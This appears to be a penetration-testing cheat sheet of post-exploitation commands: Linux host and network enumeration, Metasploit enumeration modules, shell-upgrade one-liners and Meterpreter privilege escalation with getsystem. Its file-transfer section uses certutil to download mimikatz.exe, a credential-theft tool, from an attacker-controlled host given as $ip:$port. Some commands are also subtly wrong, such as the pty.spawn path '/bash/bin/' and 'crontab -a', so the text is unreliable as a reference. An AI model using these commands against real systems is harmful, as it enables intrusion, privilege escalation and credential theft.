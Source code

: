 `meterpreter> arp`

`bash> cat /etc/networks` -> display interfaces and its ip

`bash> cat /etc/hostname`

`bash> cat /etc/hosts`

`bash> cat /etc/resolv.conf`

## Enumerating Process and Cron Jobs
- Running Process and Services
- Cron Jobs

`bash> ps`

`bash> crontab -a`

`bash> crontab -l`

## Automating Linux Local Enumeration
- use LinPeas or LinEnum tool from github

`msf> search enum_configs`-> results are saved in the loot directory under /home/username/.msf4/loot

`msf> search enum_network`

`msf> search enum_system`

`msf> search checkvm`


## Transfering files 
`python -m SimpleHTTPServer 80`

`python3 -m http.server 80`

`certutil -urlcache -f http://$ip:$port/mimikatz.exe mimikatz.exe`

## Upgrading from non-interactive shells
`/bin/bash -i`

`python -c "import pty; pty.spawn('/bash/bin/')"`

`perl -e "exec '/bin/bash';"`

`ruby: exec '/bin/bash'`


## Post-Exploitation 
`meterpreter> getsystem` -> to get higher privileges

`meterpreter> getuid`

`meterpreter> getprivs`
